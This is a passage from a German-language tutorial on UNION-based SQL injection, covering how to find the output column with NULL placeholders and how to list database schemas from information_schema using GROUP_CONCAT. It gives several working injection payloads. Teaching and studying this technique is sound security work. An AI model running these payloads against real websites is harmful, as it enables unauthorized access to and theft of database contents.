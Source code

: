 
## 3. Schritt 2: Ermittlung der verwundbaren Spalten (NULL Payload)

Sobald die Spaltenanzahl (`N`) bekannt ist, wird ein `UNION SELECT`-Statement mit `N` Platzhaltern (meist `NULL`-Werte) injiziert.

- **Zweck von `NULL`:** Da `NULL` in den meisten DBMS-Systemen mit fast jedem Datentyp kompatibel ist, dient es als Typen-Placeholder, um die Kompatibilitätsanforderung zu erfüllen.

- **Identifizierung der Ausgabespalte:** Wir ersetzen nacheinander einen `NULL`-Wert durch eine Zahl (z.B. `1`, `2`, `3`, `4`). Nur die Spalte, deren Wert sichtbar auf der Webseite erscheint, ist die verwundbare Ausgabespalte, in die wir unsere Daten injizieren können.




**Beispiel (N=4 Spalten):**

```text
# Payload:
test' UNION SELECT NULL, NULL, 3, NULL --
```

Angenommen, der Wert 3 wird auf der Webseite angezeigt, dann ist die dritte Spalte der Ausgabepunkt für die nachfolgende Datenextraktion.




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## 4. Schritt 3: Datenextraktion mit `GROUP_CONCAT`

Nachdem die verwundbare Spalte identifiziert wurde (im Beispiel: Spalte 3), kann diese durch Datenbankfunktionen ersetzt werden, um gezielte Informationen zu extrahieren.

> **Wichtig:** Wir nutzen die information_schema, eine systemeigene Datenbank (primär in MySQL), die Metadaten über alle anderen Datenbanken, Tabellen, Spalten und Zugriffsrechte speichert.


### Beispielhafte Schritte zur Datenextraktion mit `GROUP_CONCAT`

1. **Test auf Verwundbarkeit mit UNION SELECT**
```sql
test' UNION SELECT 1,2,3 FROM table_name --
```

2. **Schemas (Datenbanken) anzeigen:**
```sql
test' UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata --

test' UNION SELECT NULL, NULL, group_concat(schema_name) FROM information_schema.schemata --
```

